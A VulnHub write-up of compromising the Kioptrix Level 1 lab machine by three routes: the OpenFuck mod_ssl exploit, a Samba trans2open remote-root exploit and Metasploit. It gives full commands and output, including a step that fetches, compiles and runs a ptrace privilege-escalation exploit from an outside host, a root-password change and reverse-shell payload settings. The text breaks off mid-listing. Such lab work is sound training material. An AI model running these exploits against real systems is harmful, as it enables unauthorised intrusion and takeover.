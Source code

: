 ```yaml
---
layout: post
title: "Vulnhub: K1optr1x 1"
categories: vulnhub
author: "dib"
permalink: /vulnhub/kp1/
tags: vulnhub
---
```

> "Learning is not attained by chance. It must be sought for with ardor and attended with diligence." – Abigail Adams  
  
We'll be doing the first level of Vulnhub's K1optr1x series. You can download the machine here [K1optr1x: Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)  

![][1]  

### 0x00 Recon

<details>
  <summary>
    get vm's IP
  </summary>
  
<pre>

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> sudo arp-scan 192.168.222.0/24  
[sudo] password for imd:   
Interface: eth0, type: EN10MB, MAC: 00:0c:29:30:67:4e, IPv4: 192.168.222.129  
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)  
192.168.222.1   00:50:56:c0:00:08       VMware, Inc.  
192.168.222.2   00:50:56:e7:41:94       VMware, Inc.  
192.168.222.130 00:0c:29:2f:e1:7        VMware, Inc.  
192.168.222.254 00:50:56:e4:e3:5b       VMware, Inc.  

</pre>  
</details>  
  
Target IP Address: 192.168.222.130

### 0x01 Scanning

Let's first scan it using NMAP. If you want to know what my nmap commands are doing, go check it [here](https://nmap.org/book/man-briefoptions.html) 

<details>
  <summary>
    nmap scan
  </summary>

<pre>

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> nmap -Pn -n -vvvv -sV -p- 192.168.222.130
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-05 05:58 EST
NSE: Loaded 45 scripts for scanning.
Initiating Connect Scan at 05:58
Scanning 192.168.222.130 [65535 ports]
Discovered open port 22/tcp on 192.168.222.130
Discovered open port 80/tcp on 192.168.222.130
Discovered open port 139/tcp on 192.168.222.130
Discovered open port 443/tcp on 192.168.222.130
Discovered open port 111/tcp on 192.168.222.130
Discovered open port 1024/tcp on 192.168.222.130
Completed Connect Scan at 05:59, 9.91s elapsed (65535 total ports)
Initiating Service scan at 05:59
Scanning 6 services on 192.168.222.130
Completed Service scan at 05:59, 14.04s elapsed (6 services on 1 host)
NSE: Script scanning 192.168.222.130.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 05:59
Completed NSE at 05:59, 2.07s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 05:59
Completed NSE at 05:59, 2.01s elapsed
Nmap scan report for 192.168.222.130
Host is up, received user-set (0.0016s latency).
Scanned at 2020-12-05 05:58:58 EST for 29s
Not shown: 65529 closed ports
Reason: 65529 conn-refused
PORT     STATE SERVICE     REASON  VERSION
22/tcp   open  ssh         syn-ack OpenSSH 2.9p2 (protocol 1.99)
80/tcp   open  http        syn-ack Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp  open  rpcbind     syn-ack 2 (RPC #100000)
139/tcp  open  netbios-ssn syn-ack Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   syn-ack Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
1024/tcp open  status      syn-ack 1 (RPC #100024)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.65 seconds

</pre>  
</details>  
  
There are 6 open ports and the services running under each port. Let's check each open port. port 80 is open. Opened firefox and simply browse to http://192.168.222.130  

[![][2]][2]

It's a test page, I viewed the source code and there's nothing much I can find. We can attempt to scan if there are hidden files and directories but I don't think this is the way it was built by the creator. 

<details>
  <summary>
    dirb scan
  </summary>

<pre>

<b>imd@kali:~$</b> dirb http://192.168.222.130

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Dec 10 13:14:09 2020
URL_BASE: http://192.168.222.130/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.222.130/ ----
+ http://192.168.222.130/~operator (CODE:403|SIZE:273)                                                                                                               
+ http://192.168.222.130/~root (CODE:403|SIZE:269)                                                                                                                   
+ http://192.168.222.130/cgi-bin/ (CODE:403|SIZE:272)                                                                                                                
+ http://192.168.222.130/index.html (CODE:200|SIZE:2890)                                                                                                             
==> DIRECTORY: http://192.168.222.130/manual/                                                                                                                        
==> DIRECTORY: http://192.168.222.130/mrtg/                                                                                                                          
==> DIRECTORY: http://192.168.222.130/usage/                                                                                                                                                       
---- Entering directory: http://192.168.222.130/manual/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                  
---- Entering directory: http://192.168.222.130/mrtg/ ----
+ http://192.168.222.130/mrtg/index.html (CODE:200|SIZE:17318)                                                                                                                                                    
---- Entering directory: http://192.168.222.130/usage/ ----
+ http://192.168.222.130/usage/index.html (CODE:200|SIZE:4262)      

-----------------
END_TIME: Thu Dec 10 13:14:59 2020
DOWNLOADED: 13836 - FOUND: 6

</pre> 
</details>  
  
~root and ~operator is forbidden, manual dir are just manual docs, the rest are not found or nothing interesting. Now let's dig deeper and scan the web using Nikto.  

<details>
  <summary>
    scanning phase
  </summary>

<pre>

<b>imd@kali:~$</b> nikto -h http://192.168.222.130
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.222.130
+ Target Hostname:    192.168.222.130
+ Target Port:        80
+ Start Time:         2020-12-05 06:01:50 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
+ Server may leak inodes via ETags, header found with file /, inode: 34821, size: 2890, mtime: Wed Sep  5 23:12:46 2001
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ OSVDB-27487: Apache is vulnerable to XSS via the Expect header
+ OpenSSL/0.9.6b appears to be outdated (current is at least 1.1.1). OpenSSL 1.0.0o and 0.9.8zc are also current.
+ mod_ssl/2.8.4 appears to be outdated (current is at least 2.8.31) (may depend on server version)
+ Apache/1.3.20 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, OPTIONS, TRACE 
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-838: Apache/1.3.20 - Apache 1.x up 1.2.34 are vulnerable to a remote DoS and possible code execution. CAN-2002-0392.
+ OSVDB-4552: Apache/1.3.20 - Apache 1.3 below 1.3.27 are vulnerable to a local buffer overflow which allows attackers to kill any process on the system. CAN-2002-0839.
+ OSVDB-2733: Apache/1.3.20 - Apache 1.3 below 1.3.29 are vulnerable to overflows in mod_rewrite and mod_cgi. CAN-2003-0542.
<u>+ mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.</u>
+ ///etc/hosts: The server install allows reading of any system file by adding an extra '/' to the URL.
+ OSVDB-682: /usage/: Webalizer may be installed. Versions lower than 2.01-09 vulnerable to Cross Site Scripting (XSS).
+ OSVDB-3268: /manual/: Directory indexing found.
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3092: /test.php: This might be interesting...
+ /wp-content/themes/twentyeleven/images/headers/server.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wordpresswp-content/themes/twentyeleven/images/headers/server.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wp-includes/Requests/Utility/content-post.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wordpresswp-includes/Requests/Utility/content-post.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wp-includes/js/tinymce/themes/modern/Meuhy.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wordpresswp-includes/js/tinymce/themes/modern/Meuhy.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /assets/mobirise/css/meta.php?filesrc=: A PHP backdoor file manager was found.
+ /login.cgi?cli=aa%20aa%27cat%20/etc/hosts: Some D-Link router remote command execution.
+ /shell?cat+/etc/hosts: A backdoor was identified.
+ 8724 requests: 0 error(s) and 30 item(s) reported on remote host
+ End Time:           2020-12-05 06:02:37 (GMT-5) (47 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

</pre>
</details>  
  
Web server is apache 1.3.20 and VM is running Red Hat Linux. possible remote shell on mod_ssl 2.8.4-7. exploit-db is my preferred website searching CVEs  
[](https://www.exploit-db.com/exploits/764)

### 0x02 Method 1: Openfuck exploit

<details>
  <summary>
    searchsploit result
  </summary>

<pre>

<b>imd@kali:~$</b> searchsploit OpenFuckV2
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                      |  Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (1)                                                          | unix/remote/764.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)                                                          | unix/remote/47080.c
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

</pre>  
</details>  
  
So now we know OpenFuck exploit, download it and let's follow the instruction inside the comment block. I've downloaded the updated version by typing the command `searchsploit -m 47080.c`

<details>
  <summary>
    compile openfuck
  </summary>

<pre>

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> searchsploit -m 47080.c
  Exploit: Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)
      URL: https://www.exploit-db.com/exploits/47080
     Path: /usr/share/exploitdb/exploits/unix/remote/47080.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /home/imd/ctfs/vulnhub/kioptrix1/47080.c

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> mv 47080.c openfuck.c
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> sudo apt-get install libssl-dev
[sudo] password for imd: 
Reading package lists... Done
Building dependency tree       
Reading state information... Done
libssl-dev is already the newest version (1.1.1g-1+0~20200421.17+debian10~1.gbpf6902f).
0 upgraded, 0 newly installed, 0 to remove and 169 not upgraded.

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> gcc -o openfuck openfuck.c -lcrypto  
  
</pre>
</details>  
  
Run the exploit first to see the options how to use it. It requires you to input the offset, target IP, port, and number of connections. 
`Usage: ./openfuck target box [port] [-c N]`  

<details>
  <summary>
    openfuck result
  </summary>

<pre>

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> ./openfuck
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> ./openfuck 0x6b 192.168.222.130 443 -c 50

*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 50 of 50
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f82e0
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
d.c; ./exploit; -kmod.c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmo 
--14:57:47--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: 3,921 [text/x-csrc]

    0K ...                                                   100% @   1.66 KB/s

14:57:54 (1.66 KB/s) - `ptrace-kmod.c' saved [3921/3921]

gcc: file path prefix `/usr/bin' never used
[+] Attached to 7914
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
<p style="color:#05c820">
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
whoami
root
uname -a
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
</p>

</pre>
</details>

There we have it, root access! You can go further changing the root password or create another user with root privileges for maintaning access but is not necessary since we already have root. Challenge complete.. Congrats!

<details>
  <summary>
    root access
  </summary>
  
<pre>

passwd root
New password: root
BAD PASSWORD: it is too short
Retype new password: root
Changing password for user root
passwd: all authentication tokens updated successfully

</pre>
</details>  
  
![][3]

### 0x03 Method 2: Samba exploit

Earlier we saw port 139 (Samba) is open. Let's scan what version it is and search for a possible exploit

<details>
  <summary>
    samba scan
  </summary>

<pre>

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> nbtscan 192.168.222.130
Doing NBT name scan for addresses from 192.168.222.130

IP address       NetBIOS Name     Server    User             MAC address      
------------------------------------------------------------------------------
192.168.222.130  KIOPTRIX         <server>  KIOPTRIX         00:00:00:00:00:00

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> enum4linux -a 192.168.222.130
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Thu Dec 10 16:12:25 2020

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 192.168.222.130
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ======================================================= 
|    Enumerating Workgroup/Domain on 192.168.222.130    |
 ======================================================= 
[+] Got domain/workgroup name: MYGROUP

 =============================================== 
|    Nbtstat Information for 192.168.222.130    |
 =============================================== 
Looking up status of 192.168.222.130
        KIOPTRIX        <00> -         B <ACTIVE>  Workstation Service
        KIOPTRIX        <03> -         B <ACTIVE>  Messenger Service
        KIOPTRIX        <20> -         B <ACTIVE>  File Server Service
        ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser
        MYGROUP         <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
        MYGROUP         <1d> -         B <ACTIVE>  Master Browser
        MYGROUP         <1e> - <GROUP> B <ACTIVE>  Browser Service Elections

        MAC Address = 00-00-00-00-00-00

 ======================================== 
|    Session Check on 192.168.222.130    |
 ======================================== 
[+] Server 192.168.222.130 allows sessions using username '', password ''

 ============================================== 
|    Getting domain SID for 192.168.222.130    |
 ============================================== 
Domain Name: MYGROUP
Domain Sid: (NULL SID)
[+] Can't determine if host is part of domain or part of a workgroup

 ========================================= 
|    OS information on 192.168.222.130    |
 ========================================= 
Use of uninitialized value $os_info in concatenation (.) or string at ./enum4linux.pl line 464.
[+] Got OS info for 192.168.222.130 from smbclient: 
[+] Got OS info for 192.168.222.130 from srvinfo:
        KIOPTRIX       Wk Sv PrQ Unx NT SNT Samba Server
        platform_id     :       500
        os version      :       4.5
        server type     :       0x9a03

 ================================ 
|    Users on 192.168.222.130    |
 ================================ 
Use of uninitialized value $users in print at ./enum4linux.pl line 874.
Use of uninitialized value $users in pattern match (m//) at ./enum4linux.pl line 877.

Use of uninitialized value $users in print at ./enum4linux.pl line 888.
Use of uninitialized value $users in pattern match (m//) at ./enum4linux.pl line 890.

 ============================================ 
|    Share Enumeration on 192.168.222.130    |
 ============================================ 

        Sharename       Type      Comment
        ---------       ----      -------
        IPC$            IPC       IPC Service (Samba Server)
        ADMIN$          IPC       IPC Service (Samba Server)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------
        KIOPTRIX             Samba Server

        Workgroup            Master
        ---------            -------
        MYGROUP              KIOPTRIX

[+] Attempting to map shares on 192.168.222.130
//192.168.222.130/IPC$  [E] Can't understand response:
NT_STATUS_NETWORK_ACCESS_DENIED listing \*
//192.168.222.130/ADMIN$        [E] Can't understand response:
tree connect failed: NT_STATUS_WRONG_PASSWORD

 ======================================================= 
|    Password Policy Information for 192.168.222.130    |
 ======================================================= 
[E] Unexpected error from polenum:


[+] Attaching to 192.168.222.130 using a NULL share

[+] Trying protocol 139/SMB...

        [!] Protocol failed: SMB SessionError: 0x5

[+] Trying protocol 445/SMB...

        [!] Protocol failed: [Errno Connection error (192.168.222.130:445)] [Errno 111] Connection refused


[+] Retieved partial password policy with rpcclient:

Password Complexity: Disabled
Minimum Password Length: 0


 ================================= 
|    Groups on 192.168.222.130    |
 ================================= 

[+] Getting builtin groups:
group:[Administrators] rid:[0x220]
group:[Users] rid:[0x221]
group:[Guests] rid:[0x222]
group:[Power Users] rid:[0x223]
group:[Account Operators] rid:[0x224]
group:[System Operators] rid:[0x225]
group:[Print Operators] rid:[0x226]
group:[Backup Operators] rid:[0x227]
group:[Replicator] rid:[0x228]

[+] Getting builtin group memberships:
Group 'Power Users' (RID: 547) has member: Couldn't find group Power Users
Group 'Users' (RID: 545) has member: Couldn't find group Users
Group 'Backup Operators' (RID: 551) has member: Couldn't find group Backup Operators
Group 'Print Operators' (RID: 550) has member: Couldn't find group Print Operators
Group 'Guests' (RID: 546) has member: Couldn't find group Guests
Group 'System Operators' (RID: 549) has member: Couldn't find group System Operators
Group 'Administrators' (RID: 544) has member: Couldn't find group Administrators
Group 'Replicator' (RID: 552) has member: Couldn't find group Replicator
Group 'Account Operators' (RID: 548) has member: Couldn't find group Account Operators

[+] Getting local groups:
group:[sys] rid:[0x3ef]
group:[tty] rid:[0x3f3]
group:[disk] rid:[0x3f5]
group:[mem] rid:[0x3f9]
group:[kmem] rid:[0x3fb]
group:[wheel] rid:[0x3fd]
group:[man] rid:[0x407]
group:[dip] rid:[0x439]
group:[lock] rid:[0x455]
group:[users] rid:[0x4b1]
group:[slocate] rid:[0x413]
group:[floppy] rid:[0x40f]
group:[utmp] rid:[0x415]

[+] Getting local group memberships:

[+] Getting domain groups:
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]

[+] Getting domain group memberships:
Group 'Domain Admins' (RID: 512) has member: Couldn't find group Domain Admins
Group 'Domain Users' (RID: 513) has member: Couldn't find group Domain Users

<b>imd@kali:~$</b> nmap --script smb-enum-shares -p 139 192.168.222.130
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-11 04:14 EST
Nmap scan report for 192.168.222.130
Host is up (0.00091s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn

Nmap done: 1 IP address (1 host up) scanned in 5.50 seconds

<b>imd@kali:~$</b> smbmap -H 192.168.222.130 -P 139
[+] Guest session   .   IP: 192.168.222.130:139 Name: 192.168.222.130 

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> smbclient -L 192.168.222.130
Server does not support EXTENDED_SECURITY  but 'client use spnego = yes' and 'client ntlmv2 auth = yes' is set
Anonymous login successful
Enter WORKGROUP\imd's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        IPC$            IPC       IPC Service (Samba Server)
        ADMIN$          IPC       IPC Service (Samba Server)
Reconnecting with SMB1 for workgroup listing.
Server does not support EXTENDED_SECURITY  but 'client use spnego = yes' and 'client ntlmv2 auth = yes' is set
Anonymous login successful

        Server               Comment
        ---------            -------
        KIOPTRIX             Samba Server

        Workgroup            Master
        ---------            -------
        MYGROUP              KIOPTRIX

</pre>
</details>  

Note: if you got an error `[E] Server doesn't allow session using username '', password ''.  Aborting remainder of tests.` add this line on /etc/samba/smb.conf under [global] `client min protocol = CORE` it should look like this  

<details>
  <summary>
    smb.conf
  </summary>

```

#======================= Global Settings =======================

[global]

client min protocol = CORE


## Browsing/Identification ###

# Change this to the workgroup/NT-domain name your Samba server will part of
   workgroup = WORKGROUP      

```
</details>

Okay. We still can't figure out what is the samba version. Let's try other tools of the trade.
<details>
  <summary>
    smbver.sh
  </summary>

<pre>

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> ./smbver.sh 192.168.222.130 139
192.168.222.130: 
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b>

</pre>
</details>

We tried to use [smbver.sh](https://github.com/rewardone/OSCPRepo/blob/master/scripts/recon_enum/smbver.sh) but nothing happened. Opened up wireshark and after capturing the packets, run the script and now we see **Samba 2.2.1a**

[![][4]][4]

Credits: [https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html](https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html)

<details>
  <summary>
    root access
  </summary>

<pre>

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> searchsploit samba 2.2.1
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                      |  Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Samba 2.2.0 < 2.2.8 (OSX) - trans2open Overflow (Metasploit)                                                                        | osx/remote/9924.rb
Samba < 2.2.8 (Linux/BSD) - Remote Code Execution                                                                                   | multiple/remote/10.c
Samba < 3.0.20 - Remote Heap Overflow                                                                                               | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                                       | linux_x86/dos/36741.py
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> searchsploit -m 10.c
  Exploit: Samba < 2.2.8 (Linux/BSD) - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/10
     Path: /usr/share/exploitdb/exploits/multiple/remote/10.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /home/imd/ctfs/vulnhub/kioptrix1/10.c


<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> gcc -o samba 10.c
<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> ./samba 
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
Usage: ./samba [-bBcCdfprsStv] [host]

-b <platform>   bruteforce (0 = Linux, 1 = FreeBSD/NetBSD, 2 = OpenBSD 3.1 and prior, 3 = OpenBSD 3.2)
-B <step>       bruteforce steps (default = 300)
-c <ip address> connectback ip address
-C <max childs> max childs for scan/bruteforce mode (default = 40)
-d <delay>      bruteforce/scanmode delay in micro seconds (default = 100000)
-f              force
-p <port>       port to attack (default = 139)
-r <ret>        return address
-s              scan mode (random)
-S <network>    scan mode
-t <type>       presets (0 for a list)
-v              verbose mode

<b>imd@kali:~/ctfs/vulnhub/kioptrix1$</b> ./samba -b 0 192.168.222.130
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
+ Bruteforce mode. (Linux)
+ Host is running samba.
+ Worked!
--------------------------------------------------------------
*** JE MOET JE MUIL HOUWE
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
<p style="color:#05c820">
uid=0(root) gid=0(root) groups=99(nobody)

whoami
root
</p>

</pre>
</details>

Searched for the exploit, download, compile, run. We're now root!

### 0x04 Method 3: Metasploit

<details>
  <summary>
    metasploit search
  </summary>

<pre>

<b>imd@kali:~$</b> msfconsole

Metasploit tip: Metasploit can be configured at startup, see msfconsole --help to learn more

[*] Starting persistent handler(s)...
<b>msf5 ></b> search samba

Matching Modules
================

   #   Name                                                 Disclosure Date  Rank       Check  Description
   -   ----                                                 ---------------  ----       -----  -----------
   0   auxiliary/admin/smb/samba_symlink_traversal                           normal     No     Samba Symlink Directory Traversal
   1   auxiliary/dos/samba/lsa_addprivs_heap                                 normal     No     Samba lsa_io_privilege_set Heap Overflow
   2   auxiliary/dos/samba/lsa_transnames_heap                               normal     No     Samba lsa_io_trans_names Heap Overflow
   3   auxiliary/dos/samba/read_nttrans_ea_list                              normal     No     Samba read_nttrans_ea_list Integer Overflow
   4   auxiliary/scanner/rsync/modules_list                                  normal     No     List Rsync Modules
   5   auxiliary/scanner/smb/smb_uninit_cred                                 normal     Yes    Samba _netr_ServerPasswordSet Uninitialized Credential State
   6   exploit/freebsd/samba/trans2open                     2003-04-07       great      No     Samba trans2open Overflow (*BSD x86)
   7   exploit/linux/samba/chain_reply                      2010-06-16       good       No     Samba chain_reply Memory Corruption (Linux x86)
   8   exploit/linux/samba/is_known_pipename                2017-03-24       excellent  Yes    Samba is_known_pipename() Arbitrary Module Load
   9   exploit/linux/samba/lsa_transnames_heap              2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   10  exploit/linux/samba/setinfopolicy_heap               2012-04-10       normal     Yes    Samba SetInformationPolicy AuditEventsInfo Heap Overflow
   11  exploit/linux/samba/trans2open                       2003-04-07       great      No     Samba trans2open Overflow (Linux x86)
   12  exploit/multi/samba/nttrans                          2003-04-07       average    No     Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow
   13  exploit/multi/samba/usermap_script                   2007-05-14       excellent  No     Samba "username map script" Command Execution
   14  exploit/osx/samba/lsa_transnames_heap                2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   15  exploit/osx/samba/trans2open                         2003-04-07       great      No     Samba trans2open Overflow (Mac OS X PPC)
   16  exploit/solaris/samba/lsa_transnames_heap            2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   17  exploit/solaris/samba/trans2open                     2003-04-07       great      No     Samba trans2open Overflow (Solaris SPARC)
   18  exploit/unix/http/quest_kace_systems_management_rce  2018-05-31       excellent  Yes    Quest KACE Systems Management Command Injection
   19  exploit/unix/misc/distcc_exec                        2002-02-01       excellent  Yes    DistCC Daemon Command Execution
   20  exploit/unix/webapp/citrix_access_gateway_exec       2010-12-21       excellent  Yes    Citrix Access Gateway Command Execution
   21  exploit/windows/fileformat/ms14_060_sandworm         2014-10-14       excellent  No     MS14-060 Microsoft Windows OLE Package Manager Code Execution
   22  exploit/windows/http/sambar6_search_results          2003-06-21       normal     Yes    Sambar 6 Search Results Buffer Overflow
   23  exploit/windows/license/calicclnt_getconfig          2005-03-02       average    No     Computer Associates License Client GETCONFIG Overflow
   24  exploit/windows/smb/group_policy_startup             2015-01-26       manual     No     Group Policy Script Execution From Shared Resource
   25  post/linux/gather/enum_configs                                        normal     No     Linux Gather Configurations

</pre>
</details>

Search for the exploit. Interact with a module by name or index, `use 15` or `use exploit/linux/samba/trans2open`

<details>
  <summary>
    root access
  </summary>

<pre>

<b>msf5 ></b> use exploit/linux/samba/trans2open
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
<b>msf5 exploit(linux/samba/trans2open) ></b> show options

Module options (exploit/linux/samba/trans2open):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.222.129  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce


<b>msf5 exploit(linux/samba/trans2open) ></b> set RHOSTS 192.168.222.130
RHOSTS => 192.168.222.130
<b>msf5 exploit(linux/samba/trans2open) ></b> set LHOSTS 192.168.222.129
LHOSTS => 192.168.222.129
<b>msf5 exploit(linux/samba/trans2open) ></b> set RPORT 139
RPORT => 139
<b>msf5 exploit(linux/samba/trans2open) ></b> show payload
[-] Invalid parameter "payload", use "show -h" for more information
<b>msf5 exploit(linux/samba/trans2open) ></b> show payloads
<b>msf5 exploit(linux/samba/trans2open) ></b> show payloads

Compatible Payloads
===================

   #   Name                                      Disclosure Date  Rank    Check  Description
   -   ----                                      ---------------  ----    -----  -----------
   0   generic/custom                                             manual  No     Custom Payload
   1   generic/debug_trap                                         manual  No     Generic x86 Debug Trap
   2   generic/shell_bind_tcp                                     manual  No     Generic Command Shell, Bind TCP Inline
   3   generic/shell_reverse_tcp                                  manual  No     Generic Command Shell, Reverse TCP Inline
   4   generic/tight_loop                                         manual  No     Generic x86 Tight Loop
   5   linux/x86/adduser                                          manual  No     Linux Add User
   6   linux/x86/chmod                                            manual  No     Linux Chmod
   7   linux/x86/exec                                             manual  No     Linux Execute Command
   8   linux/x86/meterpreter/bind_ipv6_tcp                        manual  No     Linux Mettle x86, Bind IPv6 TCP Stager (Linux x86)
   9   linux/x86/meterpreter/bind_ipv6_tcp_uuid                   manual  No     Linux Mettle x86, Bind IPv6 TCP Stager with UUID Support (Linux x86)
